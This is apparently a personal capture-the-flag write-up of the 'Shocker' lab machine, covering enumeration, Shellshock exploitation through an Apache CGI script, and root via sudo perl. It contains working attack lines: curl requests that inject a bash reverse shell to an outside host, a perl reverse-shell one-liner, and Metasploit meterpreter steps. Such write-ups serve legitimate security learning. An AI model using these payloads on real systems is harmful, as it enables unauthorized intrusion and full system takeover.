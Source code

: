 # shocker, flow

## Summary

+ the shellshock vuln, affect bash version <=4.3, which is a major version before 2015-10-12.

+ the msf keyword is not "apache 2.4.18", but *"apache cgi"*. Hence initially failed to pinpoint the info.

+ Hard to know the cgi shellshock vuln. (to know apache parse header as env, and the env parsing lead to a bash vulnerability.)

> "With the discovered user.sh script, and due to the lack of another attack surface, it is quite clear at this point that the exploit will be shellshock (Apache mod_cgi).
> There is a Metasploit module for this specific vulnerability, as well as a Proof of Concept on exploit-db."
> (official write-up)

+ mistook `search` with `searchsploit`

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- 192.168.0.1
  # 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  # 2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0
```

## searchsploit

```sh
searchsploit apache 2.4.18

  # reject
  # Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                                                          | php/remote/29290.c
  # Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                                                        | php/remote/29316.py
  # Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                                                                      | multiple/dos/26710.txt
  # Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory Traversal                                                      | linux/webapps/39642.txt
  # Apache Tomcat < 5.5.17 - Remote Directory Listing                                                                        | multiple/remote/2061.txt
  # Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal                                                                      | unix/remote/14489.c
  # Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)                                                                | multiple/remote/6229.txt
  # Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)             | windows/webapps/42953.txt
  # Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)             | jsp/webapps/42966.py
  # Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)                                                             | linux/dos/36906.txt
  # Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution                                         | linux/remote/34.pl

  # hold
  # Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow                                                     | unix/remote/21671.c
  # Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                               | unix/remote/764.c
  # Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                               | unix/remote/47080.c

  # try
  # Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation                                    | linux/local/46676.php
  # Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak                                                                         | linux/webapps/42745.py
```

```sh
cdee
cp /usr/share/exploitdb/exploits/linux/local/46676.php ~/assets/shocker/46665.php
  # Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation
cp /usr/share/exploitdb/exploits/linux/webapps/42745.py ~/assets/shocker/42745.py
  # Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak
cda
```

```sh
python3 42745.py shocker
  # no result
```

## gobuster

```sh
dict="/usr/share/wordlists/dirb/common.txt"
ls -lah $dict                                    # 36KB
gobuster dir -u http://shocker/ -w $dict -t 20 -e -x php,asp,json,aspx
  # 5min
  # find /cgi-bin/ (status 403)

gobuster dir -u http://shocker/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 20 -e -x cgi,sh,pl,py,rb,php
  # 5min
  # find /user.sh (status 200)
```

## shellshock

+ ref: (shellshock basic) [https://fedoramagazine.org/shellshock-how-does-it-actually-work/]

```sh
env x='() { :;}; echo OOPS' bash -c :
  # env is inherited among shells.
  # the command is executed during importing.
```

```sh
curl -H "C: () { :;}; /bin/bash -i >& /dev/tcp/10.10.16.3/1337 0>&1" http://shocker/cgi-bin/user.sh
curl http://shocker/cgi-bin/user.sh -H "X-ABC: () { :;}; /bin/bash -i >& /dev/tcp/10.10.16.3/1337 0>&1" 
```

## post enum

```sh
ps aux # nothing interesting
sudo -l
  # User shelly may run the following commands on Shocker:
  #    (root) NOPASSWD: /usr/bin/perl
```

## privilege escalation

```sh
perl -e "system('echo 123')"
sudo perl -e 'use Socket;$i="10.10.16.3";$p=1339;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
  # perl reverse shell -> root
```

## msf

```sh
msf> searchsploit apache cgi
# Apache mod_cgi - 'Shellshock' Remote Command Injection                                                                   | linux/remote/34900.py

python ./34900.py payload=reverse rhost=10.129.1.175 lhost=10.10.16.3 lport=1337 pages=/cgi-bin/user.sh
  # 10.129.1.175> whoami
  # shelly
```

```msfconsole
msf> search apache cgi
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS 10.129.1.175
msf> set TARGETURI /cgi-bin/user.sh

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```
